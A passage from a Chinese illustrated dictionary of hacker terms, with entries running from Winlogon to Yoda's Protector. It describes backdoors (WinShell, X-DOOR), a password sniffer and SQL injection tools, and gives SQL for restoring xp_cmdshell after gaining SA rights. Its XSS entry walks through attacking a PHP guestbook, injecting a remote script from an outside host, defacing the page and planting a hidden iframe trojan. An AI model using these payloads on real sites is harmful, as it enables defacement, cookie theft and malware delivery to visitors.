Winlogon.exe 是 Windows 2000/XP 登录管理器，位于 C:\Windows\System32 目录下，主要用于管理 XP 用户的登录和退出，处理用户登录和注销任务。按 Ctrl+Alt+Del，然后选择“任务管理器”，在进程列表中即可看到 Winlogon.exe 进程，其占用空间大小是动态变化的，这与用户登录时间有关。如果你登录 XP 系统一个小时左右，该进程将会占用 1.2MB–8.5MB 内存空间。

## Winpcap｜黑客技术基础，程序语言与开发

Winpcap 是用于网络封包抓取的一套开发工具包，适用于 32 位操作平台上解析网络封包，包含了核心的封包过滤、一个底层动态链接库和一个高层系统函数库，及可用来直接存取封包的应用程序界面。我们熟悉的 Cain 与 ARPSniffer 都是基于 Winpcap 而开发的。

用于 Windows 系统下的直接网络编程。大多数网络应用程序访问网络是通过使用套接字，这种方法很容易实现网络数据传输，因为操作系统负责底层细节（比如协议栈、数据流组装等）以及提供了类似文件读写的函数接口。但是有时，简单的方法是不够的。另外，单纯利用 Windows Socket 编程无法实现许多特定功能，例如发送虚假的 IP 数据包等，这里都需要利用 Winpcap 来进行实现。

### Winpcap 拥有以下功能

- 捕获原始数据包，不管这个包是发往本机，还是其他机器之间的交换包；
- 在数据包被发送到应用程序之前，通过用户定义的规则过滤；
- 向网络发送可定制的数据包；
- 对网络通信量作出统计。

这些功能依赖于 Win32 系统内核中的设备驱动以及一些动态链接库。Winpcap 提供了一个强大的编程接口，它很容易在各个操作系统之间进行移植，也很方便程序员进行开发。

## WINRAR｜应用程序

WINRAR 是使用非常广泛的压缩工具，支持鼠标拖放及外壳扩展，完美支持 ZIP 档案，内置程序可以解开 CAB、ARJ、LZH、TAR、GZ、ACE、UUE、BZ2、JAR、ISO 等多种类型的压缩文件；具有估计压缩功能，可以在压缩文件之前得到用 ZIP 和 RAR 两种压缩工具各三种压缩方式下的大概压缩率；压缩率相当高，而资源占用相对较少，固定压缩、多媒体压缩和多卷自释放压缩是大多压缩工具所不具备的；对于 ZIP 和 RAR 的自释放档案文件（DOS 和 Windows 格式均可），点击属性就可以轻易知道此文件的压缩属性，如果有注释，还能在属性中查看其内容。

其使用非常简单方便，配置选项不多，仅在资源管理器中就可以完成你想做的工作。新版更加强了 NT/2000 在信息安全和数据流方面的功能，并可按不同需要保存不同的压缩配置。

## WINS｜黑客技术基础

WINS 是 Windows Internet Naming Server，即 Windows Internet 命名服务。它提供一个分布式数据库，能在路由网络环境中动态地对 IP 地址映射进行注册与查询。WINS 服务器和客户机的交互运行分成 4 个步骤：名称注册、名称更新、名称释放、名称查询。WINS 用来登记 NetBIOS 计算机名，并在需要时将它解析成为 IP 地址。WINS 数据库是动态更新的。

## WinShell｜黑客工具

WinShell 是一个运行在 Windows 平台上的 Telnet 服务器软件，它是一个老牌后门软件，如图 W-4 所示。主程序是一个仅 6K 大小的 exe 文件，可完全独立执行而不依赖于任何系统动态链接库。尽管它体积小，功能却不凡。支持定制端口（默认是 5277）、密码保护、多用户登录、NT 服务方式、远程文件下载、信息自定义及独特的反 DDOS 功能等，还包括以下特性：


- 后台方式运行，无影无踪；
- 内置远程安装和反安装功能；
- 内置远程重启和关闭机器功能；
- 内置远程终止自身运行功能；
- 无通用密码，消除后顾之忧；
- ……

## WinSocket 编程｜程序语言与开发

WinSocket 编程是指在 Windows 下的 Socket 编程，也是 Windows 下网络编程的一种最常用方法。

Windows Sockets 以 U.C. Berkeley 大学 BSD UNIX 中流行的 Socket 接口为范例，定义了一套 Microsoft Windows 下的网络编程接口。它不仅包含了人们所熟悉的 Berkeley Socket 风格库函数，也包含了一组针对 Windows 的扩展库函数，以使程序员能充分利用 Windows 消息驱动机制进行编程。

Windows Sockets 规范本意在于提供给应用程序开发者一套简单的 API，并让各家网络软件供应商共同遵守。一个网络软件供应商必须百分之百地实现 Windows Sockets 规范，才能做到 Windows Sockets 兼容。任何能够与 Windows Sockets 兼容实现协同工作的应用程序，就被认为具有 Windows Sockets 接口。

## WinTopo Pro｜应用程序

WinTopo Pro 是一个将光栅（raster image）转换成向量（vector）图像的工具。WinTopo 将光栅图像的线性和多线特点转换成相应的矢量图像。此程序可转换扫描的地质图或者工程绘图，主要功能包括：输入高达 24 位 RGB 格式 BMP、TIFF、GIF 文件；以多种文件格式输出，如 ARC、DXF、Mapinfo、MIF、TXT；使用 Canny 方法进行边缘检测等。

## 黑客术语图文辞典 → WMF

## WIS｜黑客工具

小榕开发的一款用来进行 **SQL 注入** 的工具，WIS 主要用来扫描某个站点中是否存在 SQL 注入漏洞，其使用格式为：`wis.exe 网址`，输入完毕后按回车即可开始扫描。但在输入网址时，前面的“http://”和最后面的“/”是必不可少的，否则会提示无法进行扫描。

## WMA｜操作系统及其相关

WMA 的全称是 Windows Media Audio，它是微软公司推出的与 MP3 齐名的一种新音频格式。由于 WMA 在压缩比和音质方面都超过了 MP3，更是远胜于 RA（Real Audio），即使在较低采样频率下也能产生较好的音质。在 128kbps 及以下码流的试听中，WMA 完全超过了 MP3 格式，低码流之王不是浪得虚名的。但是当码流上升到 128kbps 以后，WMA 的音质却并没有如 MP3 一样随着码流的提高而大大提升。

## WMF｜操作系统及其相关

Microsoft Windows 中常见的一种图元文件格式，它具有文件短小、图案造型化的特点，整个图形常由各个独立的组成部分拼接而成，但其图形往往较粗糙，并且只能在 Microsoft Office 中调用编辑。

## WMIC｜操作系统及其相关

WMIC 是一款命令行管理工具。使用 WMIC，不但可以管理本地计算机，而且可以管理同一 Windows 域内的所有远程计算机（需要必要权限），而被管理的远程计算机不必事先安装 WMIC，只需要支持 WMI 即可。

WMIC 有一个能够分析、解释和执行从命令行接收的别名（Alias）的引擎，它是一个可执行文件，名为 `WMIC.exe`。这个文件通常位于 `c:\Windows\system32\wbem` 文件夹中，支持 WinXP/Win2003。

一般使用 WMIC 可以实现如下管理任务：

- 本地计算机管理
- 远程单个计算机管理
- 远程多个计算机管理
- 使用远程会话的计算机管理（如 Telnet）
- 使用管理脚本的自动管理

WMIC 可以通过 WMI 对计算机的几乎所有资源进行管理，无论在系统设置还是在入侵方面，它的应用都很广泛。要启动 **WMIC**，只需要在 **CMD** 中输入“WMIC”就是了。第一次运行，系统会自动安装 WMIC，然后就可以使用了。进入 WMIC 后的界面如图 W-5 所示。


图 W-5

WMIC 可以以交互和非交互两种方式运行，输入 WMIC 进入的就是交互模式。在这里执行的操作大多需要用户的确认，并且会返回执行结果。非交互模式用户可以直接在“运行”里或者在 CMD 中输入“WMIC 指令”，这时候的操作不会再经过确认，但结果仍然会返回。

简单地说，WMIC 提供的是非常灵活的管理方法，它不像 DOS 那样使用一条固定的命令来完成一个功能，而是要命令的组合，用户可以搭配出自己最喜欢的工作方式来完成工作。

可以这样理解，WMIC 中的别名用来指定用户要做哪部分的工作，而查询能让用户定位到自己要具体操作的那个对象，然后可以调用“set”指令更改这个对象的某个属性，也可以用“call”调用对象的某个方法。而如果用户只是要查询这个对象的信息，那就可以用控制输出格式开关来使结果更有条理。

这其中最常用的也就是“where”“get”“list”“set”“call”“delete”这些指令，在 WMIC 中进程管理的别名是“process”，我们在提示符后面输入“process”就可以列出当前所有进程了，如图 W-6 所示。

从图 W-6 中可以看到，命令显示出了进程的名称和命令行。向右拉动滚动条可以看到它一共显示了四十项与进程有关的参数，除了 PID、程序路径等常用的以外，甚至还包括了程序句柄、内存调用、线程等信息。


图 W-6

## WMV 操作系统及其相关

WMV（Windows Media Video）是微软公司开发的一种数字视频压缩格式。WMV 文件一般同时包含视频和音频部分，视频部分使用 Windows Media Video 编码，音频部分使用 Windows Media Audio 编码。

WMV 是微软推出的一种流媒体格式，它是在“同门”ASF（Advanced Stream Format）格式上升级延伸来的。在同等视频质量下，WMV 格式的体积非常小，因此很适合在网上播放和传播。

## WIKI 黑客技术基础

WIKI 一词来源于夏威夷语的“wee kee wee kee”，原本是“快点快点”的意思，被译为“维基”或“维客”。WIKI 站点可以由多人（甚至任何访问者）维护，每个人都可以发表自己的意见，或者对共同的主题进行扩展及探讨。

WIKI 指一种超文本系统，这种超文本系统支持面向社群的协作式写作，同时也包括一组支持这种写作的辅助工具。有人认为，WIKI 系统属于一种人类知识网络系统，我们可以在 WEB 的基础上对 WIKI 文本进行浏览、创建、更改，而且创建、更改、发布的代价远比 HTML 文本小；同时 WIKI 系统还支持面向社群的协作式写作，为协作式写作提供必要帮助；最后，WIKI 的写作者自然构成了一个社群，WIKI 系统为这个社群提供简单的交流工具。


最著名的 WIKI 网站莫过于 www.wikipedia.org，如图 W-7 所示，其中的资源多且全面，不过国内的网民需要用代理才能访问。

## WordPress 脚本

WordPress 是一种使用 PHP 语言和 MySQL 数据库开发的开源、免费 Blog（博客，网志）引擎，用户可以在支持 PHP 和 MySQL 数据库的服务器上建立自己的 Blog。它是一个功能非常强大的博客系统，插件众多，易于扩充功能，安装和使用都非常方便。

目前 WordPress 已经成为主流的 Blog 搭建平台，其原版是英文的，采用 UTF-8 编码，最新版本为 2.3。有爱好者开发了中文语言包，使其可以支持中文。不过，由于使用的编码原因，中文字符截断时会出现乱码。不过桑葚网友制作的中文 WordPress 工具箱插件可以解决这个问题。

WordPress 可以说是目前世界上最先进的 WEBlog 程序，利用它，更能把握搜索引擎，在你使用 WordPress 并掌握几种插件后，对于优化将不用过多的操心，它会为你想得更多。

## WScript 脚本

WScript 详见 Windows 脚本宿主。

进程文件：wscript 或者 wscript.exe

进程名称：Microsoft Windows Script Host

描述：wscript.exe 是微软 Microsoft Windows 操作系统脚本相关支持程序。

### WScript.Shell 脚本

Windows 脚本宿主的一个对象。

| 字段 | 值 |
|---|---|
| ProgID | Wscript.Shell |
| 文件名 | WSHom.Ocx |
| CLSID | F935DC22-1CF0-11d0-ADB9-00C04FD58A0B |
| IID | F935DC21-1CF0-11d0-ADB9-00C04FD58A0B |

### WSH 脚本

WSH 即 Windows 脚本宿主。

### WSockExpert 应用程序

WSockExpert 是一个著名的抓包工具，它可以用来监视和截获指定进程网络数据的传输，并可以用来修改网络发送和接收数据。如图 W-8 所示，为其截获网络数据的界面。


图 W-8

### Wuauclt 操作系统及其相关

Wuauclt.exe 是 Windows 自动升级管理程序，该进程会不断在线检测更新。删除该进程将使你无法得到最新更新信息。

### WWW 黑客技术基础

WWW 是 World Wide Web（环球信息网）的缩写，也可以简称为 Web，中文名字为“万维网”。它起源于 1989 年 3 月，由欧洲粒子物理实验室 CERN（the European Laboratory for Particle Physics）所发展出来的主从结构分布式超媒体系统。

通过万维网，人们使用简单的方法就可以很迅速方便地取得丰富的信息资料。由于用户在通过 Web 浏览器访问信息资源的过程中，无需再关心一些技术性的细节，而且界面非常友好，因而 Web 在 Internet 上一推出就受到了热烈的欢迎，走红全球，并迅速得到了爆炸性的发展。

## WWWROOT 黑客技术基础

本身没有任何意义，只不过大多数人都将其 Web 目录取名为 WWWROOT，这只是一种习惯，没有其他意义。


## X-Windows 操作系统及其相关

X-Window 系统是一种图形化接口，它可以在 UNIX 和 Linux 操作系统上提供 GUI（Graphical User Interface，图形用户界面）操作界面，同时也有以下几种不同的名称：X、X11、X Window、X11R7。

大部分的 UNIX 与 Linux 都是利用 X-Windows 来为用户提供一种 GUI 的界面，所以 X-Windows 是 UNIX 与 Linux 图形界面的基础。虽然以上名称都可用来表示 X-Window 系统，但却不可称为 Windows，因为 Windows 一词已被 Microsoft 公司注册。

## X-DOOR 远程监控程序 黑客工具

X-DOOR 是一款反弹连接集中管理型远程监控程序，其具有穿透防火墙、无端口、启动项、进程等特征，并实现了常见的远程控制功能，也拥有一些不常见的控制和利用功能，其生成的客户端（被控端）是无壳的。

程序通过感染 PE 文件的 IAT 表、创建新的由 svchost.exe 加载的服务、替换原有服务的 DLL 等方式来实现加载和启动。你可以根据需要选择其中的一种安装方式或多种组合安装方式进行安装。

程序最早的服务端（控制端）是 NC，由于它在一个时间里只接待一个“客人”，才有了后来的这个大东西出现。服务端（控制端）可以稳定有效地管理大批量的客户端（被控端），不过 NC 也仍可以临时客串一把服务端完成主要的命令行下的远程控制。

## X-SCAN 安全技术，应用程序

X-SCAN 是国内安全焦点组织开发的著名扫描工具，在中国的黑客历史上具有重要的地位。它完全免费，是不需要安装的绿色软件，界面支持中文和英文两种语言，包括图形界面和命令行方式，如图 X-1 所示。

从 2000 年的内部测试版 X-Scan V0.2 到目前的最新版本 X-Scan 3.3 都凝聚了国内众多入侵者的心血。最值得一提的是，X-Scan 把扫描报告和安全焦点网站相连接，对扫描到的每个漏洞进行“风险等级”评估，并提供漏洞描述、漏洞溢出程序，方便网管测试、修补漏洞。

X-SCAN 采用多线程方式对指定 IP 地址段（或单机）进行安全漏洞检测，支持插件功能。其扫描内容包括：

- 远程操作系统类型及版本
- 标准端口状态及端口
- BANNER 信息
- CGI 漏洞
- IIS 漏洞
- RPC 漏洞
- SQL-Server
- FTP-Server
- SMTP-Server
- POP3-Server
- NT-Server 弱口令用户
- NT 服务器
- NETBIOS 信息等。


图 X-1

扫描结果保存在 log 目录中，index_*.htm 为扫描结果索引文件。对于一些已知漏洞，它都给出了相应的漏洞描述、利用程序及解决方案，其它漏洞资料正在进一步整理完善中。使用者也可以通过安全焦点网站的“安全文献”和“漏洞引擎”栏目查阅相关说明。

## X-Sniffer 黑客工具

X-Sniffer 是一款简易的命令行方式嗅探器，可捕获局域网内 FTP/SMTP/POP3/HTTP 协议密码。

## XDos 操作系统及壳相关

XDos 是 DOS 的外壳程序，可以运行大多数的 DOS 命令，如：dir、ren、mkdir 等，也可以运行很多 Windows 的程序，如：notepad、calc、regedit 等。XDos 是一个多窗口的程序，你可以在 XDos 中使用复制、粘贴等有用的命令。

## XML 黑客技术基础

XML 是 eXtensible Markup Language 的缩写，即扩展标记语言，它是一种简单的数据存储语言，使用一系列简单的标记描述数据，而这些标记可以用方便的方式建立。虽然 XML 占用的空间比二进制数据多，但 XML 极其简单，易于掌握和使用。

XML 与 HTML 师出同门，都是从 SGML 延伸而出的标记语言。HTML 着重数据的显示，制定的主要目的就是网页设计；而 XML 的制定，则以数据建立及管理为主要目标。

在 XML 文件中，可以自行定义数据的类型，可以建立结构化的数据库，还可以通过筛选条件进行数据排序与查询。此外，XML 文件是一种通用的新数据库，可以用不同的语言来解读，当然也可以用 HTML 来处理。所以在 WEB2.0 时代，用 XML 来建立数据，再用 HTML 来显示是网页设计的新方向。

## XMLHTTP 黑客技术基础

XMLHTTP 是一套可以在 JavaScript、VBScript 等脚本语言中通过 HTTP 协议传送或接收 XML 及其他数据的 API。XMLHTTP 最大的用处是可以更新网页的部分内容而不需要刷新整个页面。

来自 MSDN 的解释：XMLHTTP 提供客户端同 HTTP 服务器通讯的协议。客户端可以通过 XMLHTTP 对象（MSXML2.XMLHTTP.3.0）向 HTTP 服务器发送请求并使用微软 XML 文档对象模型 Microsoft XML Document Object Model（DOM）处理回应。

## XOR 运算 程序语言与开发

对两个表达式进行逻辑“异或”运算。

```text
方式：result = expression1 Xor expression2
参数：result        任意数值变量。
      expression1   任意表达式。
      expression2   任意表达式。
```

## xp_cmdshell 数据库，渗透技术

xp_cmdshell 是 SQL Server 扩展存储过程中的一个，存储过程就像是我们编程用的函数，内容是按需要编写的一系列 SQL 语句和可选控制流语句，可由应用程序调用执行，而且允许用户声明变量、有条件执行以及其他强大的编程功能。

每个库都可以存放存储过程，但扩展存储过程只存在 master 数据库中。对用户来说，扩展存储过程与普通存储过程一样，执行方法也相同。但扩展存储过程能执行除了数据库之外的许多操作。

有关去掉 xp_cmdshell 来保护系统的分析总结：

- 去掉 xp_cmdshell 扩展过程的方法是使用如下语句：
- 添加 xp_cmdshell 扩展过程的方法是使用如下语句：
- 现在看看现象：在取得 SA 权限后远程用 Sqlexec 执行 cmd 命令，出现提示 SQL_ERROR，那么很可能是去掉了 xp_cmdshell。
- 再来看看被去掉 xp_cmdshell 后恢复的两种方法：
  - 使用 SQL Query Analyzer 连接对方后直接写入语句恢复。
  - 使用 SqlExec Sunx Version，在 Format 选项与 CMD 选项中输入恢复语句。

```sql
if exists (select * from dbo.sysobjects where id=object_id(N'[dbo].[xpcmdshell]') and OBJECTPROPERTY(id, N'IsExtendedProc')=1)
exec sp_dropextendedproc N'[dbo].[xp_cmdshell]'

sp_addextendedproc xp_cmdshell, @dllname='xplog70.dll'

sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
sp_addextendedproc 'xp_cmdshell', 'xplog70.dll'
sp_dropextendedproc 'xp_cmdshell'
```

## xp_regread 数据库

xp_regread 跟 xp_cmdshell 一样，也是 SQL Server 扩展存储过程。xp_regread 是用来读取注册表信息的，入侵时常常可以通过这个存储过程来得到储存在注册表中的 Web 绝对路径或终端服务的端口。

## XP2 操作系统

Windows XP Service Pack 2

## XPLITE PROFESSIONAL 应用程序

一款功能非常强大的 Windows 2000/XP 操作系统模块定制工具，程序运行后首先会取消 Windows 的系统文件保护功能，然后自动扫描并获取当前操作系统中的软件配置情况，允许你任意卸载原本是操作系统中无法卸载删除的模块。比如操作系统原来自动安装的移动向导、计划任务、Windows Script Host、核心字体、帮助和支持中心、语音功能、ODBC 数据库驱动、搜索助手、Windows 教程、驱动缓存、还有传真、聊天室、网络会议和电话拨号等等！程序共包含 9 大类几十种设定功能，通过此程序，你完全可以定制出一个属于自己独特的 Windows 2000 或 XP，也可以通过优化选择，做出只包含核心模块的最简操作系统，让 Windows 2000 和 XP 彻底瘦身。

**注：此程序功能非常强大，大家使用前要记得先备份好用户数据。另外，运行此程序第一步首先要取消系统文件的保护功能，执行完这一步系统会自动重新启动。**

## XSS 攻击方法与行为

XSS（Cross Site Script）的全称是跨站脚本攻击，这也是除 SQL 注入外最流行的 Web 攻击方式。

Cross Site Script 第一个单词首位是 C，之所以写成 XSS 是因为 CSS 是层叠样式表（Cascading Style Sheets）的缩写，为了避免混淆，所以用和 Cross 发音近似的 X 来代替。如果你听某人提到 CSS 或者 XSS 安全漏洞，通常指的是跨站脚本。

跨站脚本漏洞的本质是 HTML 的注入问题，是指在远程 Web 页面的 HTML 代码中插入的具有恶意目的的数据。用户认为该页面是可信赖的，但是当浏览器下载该页面时，嵌入其中的脚本将被解释执行。

因为浏览器的功能就是解释 Web 服务器发送过来的 HTML 代码，它无法分辨出哪些 HTML 代码应该解释执行，哪些只是数据内容（比如昵称、评论、头像、E-mail 等），从而应该简单显示。如果恶意用户的输入部分符合 HTML 的语法规范，则在显示时就会被浏览器自动解释成 HTML 代码。

跨站漏洞产生的原因是由于程序员在编写程序时对一些变量没有做充分的过滤，直接把用户提交的数据送到 SQL 语句里执行，这样导致用户可以提交一些特意构造的语句，一般都是带有像 JavaScript 等这类脚本代码。在这基础上，黑客利用跨站漏洞输入恶意的脚本代码，当恶意的代码被执行后就形成了所谓的跨站攻击。

一般来说，对于人机交互比较高的程序，比如论坛、留言板这类程序都比较容易进行跨站攻击。利用跨站漏洞，黑客可以在网站中插入任意代码，这些代码的功能包括获取网站管理员或普通用户的 Cookie、隐藏运行网页木马，甚至格式化浏览者的硬盘。只要脚本代码能够实现的功能，跨站攻击都能够达到，因此跨站攻击的危害程度丝毫不亚于溢出攻击。

通常攻击者注入的恶意 HTML 代码都是采用 JavaScript 一类的脚本语言编写，其功能强大，比如 Google 桌面搜索小工具、MSN 桌面搜索等都可用 JavaScript 和 VBScript 完成。

浏览器一般都有安全策略，可以限制未知网络对本地计算机的访问和破坏性操作，但跨站恶意注入的 JavaScript 代码已经可以在安全策略的允许范围内完成任意的功能。如果利用浏览器的某些漏洞，绕过浏览器的安全策略，可以随意实现访问硬盘、执行代码的任意功能，这就是常说的挂马了。

一般来说，如果在信息交换的地方（如留言本的留言或用户名）输入 script 代码，比如在用户的简介中输入 `<script>alert("test")</script>`，打开用户页面，如果弹出一个警告的窗口就说明有 XSS 漏洞。下面给出一个从分析到利用的 XSS 攻击实例。

从网上找到一个 PHP 文本留言本，首先输入 `<script>alert("樱花浪子")</script>`，却完完全全返回来了，查了一下网页代码，已经被转换成 `&lt;script&gt;alert("樱花浪子")&lt;/script&gt;` 了，如图 X-2 所示，代码如下：


```php
function addpost(){ // 添加留言
    global $submit, $lname, $admin, $u_name, $u_face, $u_emote, $u_hide, $u_sex, $u_mail, $u_oicq, $u_page, $u_text;
    global $user_time;
    if($submit){
        if(($u_name=trim($u_name))=="") showerro("昵称不能为空，请重新填写！");
        elseif(time() - $user_time < $admin[timeout]) showerro("为防止灌水，发留言间隔为 $admin[timeout] 秒");
        elseif(!checkmail($u_mail)) showerro("你邮件没有填写或填写有错误！");
        elseif(eregi("[<>\(\),#|:%/\\]", $u_mail)) showerro("邮件填写不能包含特殊字符！");
        elseif(strlen($u_name) > 15) showerro("昵称太长，非法 ID！");
        elseif(eregi("[<>\(\),#|:%/\\]+", $u_name)) showerro("昵称只能是字母数字或中文，请不要包含<>\|?等特殊字符");
        elseif($u_oicq && !ereg("^[0-9]{5,13}$", $u_oicq)) showerro("OICQ 号码只能为数字！");
        elseif(eregi("[<>\(\),#|:%/\\]+", $u_page)) showerro("主页填写有错误，主页名字只能包含字母数字下划线和句号！");
        elseif(!eregi("http://", $u_page)) showerro("主页开头要加 http://");
        elseif(($u_text=trim($u_text))=="") showerro("留言内容不能为空，请重新填写！");
        elseif(strlen($u_text)>$admin[maxlen]) showerro("留言太长了，想把留言薄撑爆呀！");
        else {
            if($u_oicq=="") $u_oicq="未知";
            if($u_page=="") $u_page="http://";
            $u_text = safeinput($u_text);
        }
    }
}
// safeinput 自定义函数
```

```php
if ($u_hide) $u_text='[HIDE]<b>悄悄话:</b>'.$u_text.'[/HIDE]';
代码略……
showok("留言成功，感谢你对我们的支持！");
}
}else
showerror("非法操作！");
```

## 再看看 safeinput 函数：

```php
function safeinput($d) { // 输入内容安全转换
$d = str_replace("\t", "", $d);
$d = str_replace("\r", "", $d);
$d = str_replace("<", "&lt;", $d);
$d = str_replace(">", "&gt;", $d);
$d = str_replace("\n", "<br>", $d);
$d = str_replace("|", "丨", $d);
$d = str_replace("  ", "&nbsp;", $d);
$d = preg_replace("/\[\/HIDE\]/is", "", $d); // 悄悄话
return $d;
}
```

好像没有 [ 和 ] 呀，在填写留言中试了一下 `[img]javascript:alert('樱花浪子')[/img]`，成功了，如图 X-3。


接下来干什么呢？想要玩得精彩，当然是来一个 JS 文件了，这样通过修改 JS 文件内容就可以做很多事情啦。直接在填写留言中写入如下代码，如图 X-4 所示。

```html
[img]javascript:s=document.createElement('script');s.src='http://hacklu.net/test/1.js';document.body.appendChild(s);[/img]
```


再来改下标题吧，直接在 JS 里填上如下内容：`document.title="HackED_BY_樱花浪子"`，再看看标题栏，如图 X-5 所示。

当然还可以改 LOGO 图片了，只要在 JS 里改成：`document.images[0].src='http://www.nohack.cn/bbs/images/Overcast/logo.gif';`。看看，已经改成黑客手册的 LOGO 了，如图 X-6 所示。


图 X-5　　图 X-6

我们还可以修改 BODY 里的内容，直接在 JS 里写如下内容：

```javascript
function Phish(){
    info = "樱花浪子到此一游!"
    document.write(info);
}
function doit(){
    setTimeout("Phish()",1000);
}
doit();
```


看看返回了什么……直接就可以改页面了，如图 X-7 所示。

如果想挂马的话，只要把 JS 内容改为：

```javascript
document.write("<iframe style='display:none;' src='http://xxx.com/xx.htm'></iframe>");
```

## XSL 黑客技术基础

XSL 是指可扩展样式表语言（Extensible Stylesheet Language），这是一种用于以可读格式呈现 XML 数据的语言。

XSL 实际上包含两个部分：

- XSLT：用于转换 XML 文档的语言
- XPath：用于在 XML 文档中导航的语言

XSLT 是指 XSL 转换（XSL Transformation），它是 XSL 最重要的部分。它可以将 XML 文档转换为其他 XML 文档、XHTML 输出或简单的文本，这通常是通过将每个 XML 元素转换为 HTML 元素来完成的。由于 XML 标签是用户定义的，浏览器不知道如何解释或呈现每个标签，因此必须使用 XSL。XML 标签的意义是为了方便用户（而不是计算机）理解。

- XSLT 还可以对 XML 树进行下列操作：
  - 添加和删除元素
  - 添加和删除属性
  - 对元素进行重新排列或排序
  - 隐藏或显示某些元素
  - 查找或选择特定元素


## 黑客术语图文辞典 → YODA'S CRYPTOR

### YODA'S CRYPTOR 加密解密

Yoda's Cryptor 是一款加密工具，没有 OEP stolen code、Replace code、IAT 加密、分段加密等障碍，而且没对原程序压缩，采用多态变形引擎的保护壳。当我们要做一个脱壳机时，面对的是加壳器对原程序的加密算法，知道了加密算法就可以直接对文件进行解密还原。由于 Yoda's Cryptor 是动态加／解密，所以要借用原壳代码解码。

### Yoda's Protector 加密解密

一款 EXE 加壳与保护工具，使用 Visual C++ 7.0 编译，如图 Y-1 所示。它支持多种 PE 格式文件，包括 EXE、OCX、DLL、SCR 文件等，并提供压缩区段、多态加密、加密／破坏导入表、反调试 API、SoftICE 探测、CRC 校验、API 重定向、反转储、清除 PE 头部、反调试器、破坏重定向信息、破坏调试信息、清除 DOS 头部、优化 DOS 头部等。


图 Y-1